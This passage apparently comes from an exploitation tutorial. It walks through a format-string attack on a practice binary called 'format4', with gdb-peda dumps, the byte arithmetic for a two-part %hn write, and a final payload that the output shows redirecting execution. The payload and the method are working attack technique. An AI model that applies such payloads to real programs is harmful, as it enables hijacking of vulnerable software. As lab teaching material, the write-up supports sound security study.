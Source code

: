 ```nasm
EDI: 0xb7fcb000 --> 0x1b2db0 
EBP: 0xbffff688 --> 0xbffff698 --> 0x0 
ESP: 0xbffff470 --> 0xbffff480 --> 0x80498ac --> 0x4 
EIP: 0x804853d (<vuln+68>:	add    esp,0x10)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048531 <vuln+56>:	lea    eax,[ebp-0x208]
   0x8048537 <vuln+62>:	push   eax
   0x8048538 <vuln+63>:	call   0x8048360 <printf@plt>
=> 0x804853d <vuln+68>:	add    esp,0x10
   0x8048540 <vuln+71>:	sub    esp,0xc
   0x8048543 <vuln+74>:	push   0x1
   0x8048545 <vuln+76>:	call   0x80483a0 <exit@plt>
   0x804854a <main>:	lea    ecx,[esp+0x4]
[------------------------------------stack-------------------------------------]
0000| 0xbffff470 --> 0xbffff480 --> 0x80498ac --> 0x4 
0004| 0xbffff474 --> 0x200 
0008| 0xbffff478 --> 0xb7fcb5a0 --> 0xfbad2088 
0012| 0xbffff47c --> 0x8048508 (<vuln+15>:	add    ebx,0x1388)
0016| 0xbffff480 --> 0x80498ac --> 0x4 
0020| 0xbffff484 ("%4$n\n")
0024| 0xbffff488 --> 0xbfff000a --> 0x0 
0028| 0xbffff48c --> 0xb7fdec83 (<dl_main+8355>:	rdtsc)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804853d in vuln ()
gdb-peda$ x/x 0x080498ac
0x80498ac:	0x00000004 ; New value, again, it's 4 because we only wrote the 4 bytes address
```

So, our exploit will look like that: 

- `\xac\x98\x04\x08\xae\x98\x04\x08%<val1>x%4$hn%<val2>x%5$hn`

We have to figure the value based on the fact that we need to write **080484cb**:

- Low order bytes = 84cb (33995 in decimal)
- High order bytes = 0804 (2052 in decimal)

However, the high order bytes is inferior to the low order so, we'll write the high order first! We just need to invert the addresses where we want to write! Let's do some math:

- High order bytes = 0804 (2052 in decimal). Minus the 8 bytes for the addresses = **2044**
- Low order bytes = 84cb (33995 in decimal). Minus the 2052 bytes we already wrote = **31943**

Here is the result :

- `\xae\x98\x04\x08\xac\x98\x04\x08%2044x%4$hn%31943x%5$hn`

Now, in GDB :

```nasm
gdb-peda$ run < <(python -c 'print "\xae\x98\x04\x08\xac\x98\x04\x08%2044x%4$hn%31943x%5$hn"')
Starting program: /home/user/demo/format4 < <(python -c 'print "\xae\x98\x04\x08\xac\x98\x04\x08%2044x%4$hn%31943x%5$hn"')
??                                                                                                                                    
Code execution redirected !
[Inferior 1 (process 6884) exited with code 01]
Warning: not running or target is remote
gdb-peda$ 
```
